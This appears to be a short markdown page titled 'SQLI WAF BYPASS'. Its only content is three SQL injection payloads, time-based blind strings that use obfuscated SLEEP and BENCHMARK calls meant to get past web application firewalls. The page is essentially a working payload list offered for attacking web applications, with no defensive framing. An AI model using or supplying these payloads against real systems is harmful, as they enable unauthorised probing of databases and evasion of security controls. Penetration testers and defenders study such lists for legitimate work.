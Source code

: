 # SQLI WAF BYPASS

\-slEEp(\"5A\");\-\-<br><br>
\-SleEP/\*(\*/(5);\-\-<br><br>
\-Benchmark/\*(\*/(10000000,rand())\-\-<br><br>
